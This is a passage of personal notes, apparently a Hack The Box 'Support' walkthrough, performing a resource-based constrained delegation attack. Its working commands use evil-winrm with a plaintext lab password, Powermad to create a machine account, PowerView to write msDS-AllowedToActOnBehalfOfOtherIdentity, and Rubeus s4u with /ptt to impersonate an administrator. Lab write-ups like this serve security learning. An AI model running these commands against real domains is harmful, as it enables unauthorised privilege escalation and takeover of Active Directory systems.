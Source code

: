 Next, we need to set this newly created security descriptor in the msDS-AllowedToActOnBehalfOfOtherIdentity field of the comptuer account we're taking over, again using PowerView in this case:

```
Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

We can then use Rubeus to hash the plaintext password into its RC4_HMAC form:

```
Rubeus.exe hash /password:Summer2018!
```

And finally we can use Rubeus' *s4u* module to get a service ticket for the service name (sname) we want to "pretend" to be "admin" for. This ticket is injected (thanks to /ptt), and in this case grants us access to the file system of the TARGETCOMPUTER:

```
Rubeus.exe s4u /user:attackersystem$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:admin /msdsspn:cifs/TARGETCOMPUTER.testlab.local /ptt
```

### Doing it
```
evil-winrm -i support.htb -u support -p 'Ironside47pleasure40Watchful'
```
whoami /all
	shows i'm a member of Shared Support Accounts

upload ../Downloads/Powermad.ps1
Set-ExecutionPolicy -Scope process Bypass
Import-Module ./Powermad.ps1
```
New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)
```

upload ../../opt/tools/PowerSploit/Recon/PowerView.ps1
Import-Module ./PowerView.ps1

```
$ComputerSid = Get-DomainComputer attackersystem -Properties objectsid | Select -Expand objectsid
```

```
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
```

```
Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

![[Pasted image 20241101115100.png]]
